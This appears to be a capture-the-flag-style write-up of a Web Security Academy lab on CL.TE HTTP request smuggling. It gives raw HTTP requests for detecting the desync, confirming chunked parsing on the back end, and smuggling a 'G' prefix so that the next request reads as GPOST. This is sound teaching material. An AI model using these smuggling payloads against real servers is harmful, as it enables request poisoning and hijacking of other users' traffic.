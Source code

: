 # HTTP request smuggling, basic CL.TE vulnerability
# Objective
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. \
The front-end server rejects requests that aren't using the GET or POST method.\
To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

# Solution
## Determinig what the front-end is using
If front-end uses `Content-Length` header it should wait for all the bytes defined in `Content-Length` header. In the example below, the response from the server (time-out) indicates that front-end must be using `Content-Length` header and back-end must be using `Transfer-Encoding` header. Last byte (`X`) was striped by front-end. Then the back-end tried to wait for the termination of the chunked request causing time-out which indicates that it is using `Transfer-Encoding` header. 
```
POST / HTTP/1.1
Host: 0ae4008c038733a4818bfc6b008000fb.web-security-academy.net
Cookie: session=QjDwerZivMfuqUNKOCyKs5bDPlaUt4Vx
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
Transfer-Encoding: chunked

4
test
X
```



|![](Images/image-9.png)|
|:--:| 
| *Time-out - Front-end is using Content Length header* |
| *Time-out - Back-end is using Transfer Encoding header* |


## Conmfirming that the back-end is using Transfer Encoding
In this case if back-end uses `Transfer-Encoding` header it should treat everything after `0` as new request.
```
POST / HTTP/1.1
Host: 0ae4008c038733a4818bfc6b008000fb.web-security-academy.net
Cookie: session=QjDwerZivMfuqUNKOCyKs5bDPlaUt4Vx
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

|![](Images/image-10.png)|
|:--:| 
| *Unrecognized method XPOST - Back-end is using Transfer Encoding header* |

## Exploitation
Payload:
```
POST / HTTP/1.1
Host: 0a5700f504b0a82a838c425c00b800fe.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

The `Content-Length: 6` value:
```
0\r\n       +3
\r\n        +2
G           +1
```

|![](Images/image.png)|
|:--:| 
| *First request - poisoning* |
|![](Images/image-1.png)|
| *Second request - request was smuggled* |
|![](Images/image-2.png)|
| *Second request with visible signs "\r" and "\n"* |